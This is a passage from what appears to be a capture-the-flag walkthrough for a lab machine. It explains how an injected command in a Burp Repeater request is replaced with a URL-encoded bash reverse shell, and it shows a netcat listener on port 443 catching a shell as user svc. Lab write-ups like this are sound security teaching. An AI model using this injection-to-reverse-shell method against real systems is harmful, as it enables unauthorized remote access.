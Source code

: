 If I select the response and push Ctrl-Shift-u, the URL decoded text
pops up:

![](/img/image-20230331145749192.png)

#### Shell

Still in Repeater, I'll replace `id` with a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![](/img/image-20230331150452775.png)

I'll need to select the new stuff and Ctrl-u to URL encode it:

![](/img/image-20230331150513958.png)

It is important to be careful about what is getting URL encoded. `+`
becomes `%2b`, but space becomes `+`. It's important that every be
encoded only once.

I'll start `nc` listening on 443 and send the request:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.208 46054
    bash: cannot set terminal process group (1625): Inappropriate ioctl for device
    bash: no job control in this shell
    svc@busqueda:/var/www/app$
